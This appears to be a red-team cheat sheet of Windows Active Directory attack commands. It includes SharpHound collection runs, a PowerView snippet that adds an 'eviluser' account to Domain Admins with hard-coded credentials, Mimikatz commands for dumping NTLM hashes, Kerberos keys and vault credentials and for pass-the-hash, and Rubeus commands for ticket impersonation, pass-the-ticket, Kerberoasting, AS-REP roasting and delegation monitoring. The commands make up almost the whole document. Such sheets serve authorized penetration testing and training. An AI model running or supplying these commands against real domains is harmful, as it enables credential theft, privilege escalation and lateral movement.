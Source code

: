 ### SharpHound Example Usage
```
SharpHound.exe -c DcOnly
SharpHound.exe -d domain.local -c DcOnly
SharpHound.exe --zippassword "myStrongPasswd!@#" -c DcOnly
```
### PowerView AddDomainGroupMember
```powershell
# add user to domain group, stealthir alternative to "net user ... /add"
$secpassword = convertto-securestring 'password123!' -asplaintext -force
$cred = new-object system.management.automation.pscredential('VICTIM\admin', $secpassword)
add-domaingroupmember -identity 'domain admins' -members 'eviluser' -credential $cred
```
### Mimikatz Commands
- `sekurlsa::logonpasswords`: dump domain NTLM hashes from memory
- `sekurlsa::ekeys`: dump Kerberoas encryption keys from memory
- `lsadump::sam`: dump NTLM hashes for local accounts
- `lsadump::cache`: dump domain cached credentials
- `sekurlsa::pth`: Pass the Hash technique for lateral movement via impersonation
	- example: `mimikatz sekurlsa::pth /user:jdoe /domain:continental.local /ntlm:6af286f0509e7c166abf710850f44fc4 /run:powershell -w hidden -c whoami`
- `sekurlsa::tickets /export`: dump all Kerberoas tickets in memory
- `kerberos::ptt <.kirbi file>`: Pass the Ticket technique
- `vault::list`: list credential manager credentials
	- using `vaultcmd`: `vaultcmd /listcreds:"Windows Credentials" /all` 
### Rebues
```powershell
# --- Impersonation using TGTs
# Create a Kerberoas ticket and start cmd.exe with the security context of the ticket
Rubeus.exe asktgt /user:jwick /domain:continental.local /aes256:c5c2e54de9d2833a896306dbe2babf0c2a0d7091c25efbaa0b3138aceca4a058 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
# List Kerberoas tickets
klist
# Create a file on disk of the base64-encoded Kerberoas ticket
# NOTE: when "createnetonly" argument is not used, create the ticket and use Cobalt Strike's "kerberoas_ticket_use" to use
# load the ticket into a logon session
make_token jwick HitMan!@12
[System.IO.File]::WriteAllBytes("c:\temp\jwick.kirbi", [System.Convert]::FromBase64String("Sm9obiB3aWNrIGlzIG15IG5hbWUK..."))
kerberoas_ticket_use c:\temp\jwick.kirbi

# List Kerberoas tickets in memory for logged on users
Rebeus.exe triage
# Dump Kerberoas ticket from memory
# NOTE: the LUID is obtained from running the "triage" command above
Rebeus.exe dump /service:krbtgt /luid:<LUID> /nowrap
# Create a process to inject the Kerberoas ticket into
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
# Pass the ticket into the session associated with the cmd.exe process
# NOTE: the LUID is obtained from running the "createnetonly" command above
Rubeus.exe ptt /luid:<LUID> /ticket:Sm9obiB3aWNrIGlzIG15IG5hbWUK...

# --- Kerberoasting
Rebeus.exe kerberoast /user:svc_mysql /nowrap

# --- ASREP Roasting
Rubeus.exe asreproast /user:svc_mysql /nowrap

# --- Unconstrained Delegation
Rebeus.exe monitor /interval:30 /nowrap
Rebeus.exe monitor /targetuser:domainadmin /interval:30 /nowrap
```
